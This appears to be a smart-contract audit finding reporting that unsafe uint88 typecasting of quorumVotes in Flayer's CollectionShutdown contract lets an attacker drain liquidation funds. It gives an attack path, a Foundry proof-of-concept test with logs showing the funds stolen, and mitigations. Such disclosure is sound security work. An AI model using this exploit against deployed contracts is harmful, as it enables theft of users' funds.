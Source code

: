 Warm Daisy Tiger

High

# Liquidation shares will be drained due to unsafe typecasting

### Summary

The unsafe typecasting in function `CollectionShutdown#start()` will cause the shutdown `quorumVotes` to be loss of precision, which lets voters to claim more than expected

### Root Cause

- In `CollectionShutdown#start()`, there is an [unsafe typecasting for value `quorumVotes`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L150)
- In function [`CollectionShutdown#execute()`, `quorumVotes` is updated with unsafe typecasting](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L245-L248)
- Collection token allows maximum `denomination` to be 9, so collection token's total supply can be very high (exceeding type range of `uint88`), rendering `quorumVotes` to be loss of precision

### Internal pre-conditions

1. Collection shutdown is started
2. Quorum passes
3. Owner calls `CollectionShutdown#execute()` 

### External pre-conditions

_No response_

### Attack Path

1. Attacker calls `Locker#createCollection(...<collection A>...)` with `denomination = 8`
2. Attacker calls `Locker#deposit(...<collection A>...)` to deposit 1 NFT and receive `1e26` CT
3. Attacker calls `CollectionShutdown#start(...<collection A>...)`, rendering `quorumVotes = 5e25` and quorum passes
4. Attacker calls `Locker#deposit(...<collection A>...)` to deposit 10 NFT and receive `1e27` CT 
5. Owner calls `CollectionShutdown#execute(...<collection A>...)` => `quorumVotes` is updated to value `240514990178654931275218944` ( = 2.405e26 ), which is 88 bits LSB of `5.5e26`
6. Attacker liquidates collection A's NFTs listed to Sudoswap by step 5
7. Attacker calls `CollectionShutdown#voteAndClaim()` to drain fund

Note that amounts are set simple to demonstrate the attack

### Impact

- The attacker can steal liquidation fund held by the contract

### PoC

Add the test below to file `CollectionShutdown.t.sol` :

```solidity
function test_unsafe_typecasting() public {
        erc721b = new ERC721Mock();

        // Define our `_poolKey` by creating a collection. This uses `erc721b`, as `erc721a`
        // is explicitly created in a number of tests.
        locker.createCollection(address(erc721b), 'Test Collection', 'TEST', 8);

        // Initialize our collection, without inflating `totalSupply` of the {CollectionToken}
        locker.setInitialized(address(erc721b), true);

        // Set our collection token for ease for reference in tests
        collectionToken = locker.collectionToken(address(erc721b));

        // Approve our shutdown contract to use test suite's tokens
        collectionToken.approve(address(collectionShutdown), type(uint).max);
        
        // Mint some collection token to attacker
        _distributeCollectionTokens(collectionToken, address(this), 1 ether * 1e8, 4 ether);

        // start a shutdown
        collectionShutdown.start(address(erc721b));

        
        // assume that attacker has NFTs
        uint[] memory ids = new uint[](10);
        for(uint i ; i < 10; ++i){
          erc721b.mint(address(this), 100 + i);
          ids[i] = 100 + i;
        }

        // attacker deposit NFTs
        erc721b.setApprovalForAll(address(locker), true);
        locker.deposit(address(erc721b), ids, address(this));

        // total supply exceeds uint88 range
        assertEq(collectionToken.totalSupply(), 11 ether * 1e8);


        // Mint NFTs into our collection {Locker}
        uint[] memory tokenIds = _mintTokensIntoCollection(erc721b, 3);
        // Process the execution as the owner
        collectionShutdown.execute(address(erc721b), tokenIds);

        // assume that NFTs are liquidated by the attacker with 2 ether
        _mockSudoswapLiquidation(SUDOSWAP_POOL, tokenIds, 2 ether);

        // other liquidated fund stays in contract
        address(collectionShutdown).call{value: 10 ether}('');
        

        uint balanceBefore = address(collectionShutdown).balance;
        // attacker drains fund
        collectionShutdown.voteAndClaim(address(erc721b));

        uint balanceAfter = address(collectionShutdown).balance;

        console.log("CollectionShutdown balance before %s", balanceBefore);
        console.log("CollectionShutdown balance after %s", balanceAfter);
        console.log("funds stolen", balanceBefore - balanceAfter - 2 ether); // assume that attacker pays 2 ether to buy NFTs
    }
```

Run the test and console shows:
```bash
Ran 1 test for test/utils/CollectionShutdown.t.sol:CollectionShutdownTest
[PASS] test_unsafe_typecasting() (gas: 4111730)
Logs:
  CollectionShutdown balance before 12000000000000000000
  CollectionShutdown balance after 7842254991020732841
  funds stolen 2157745008979267159
```

Note that amounts are set simple to demonstrate the attack

### Mitigation

- Change value type for `CollectionShutdownParams.quorumVotes` to a larger value range
- Use `SafeCast` lib 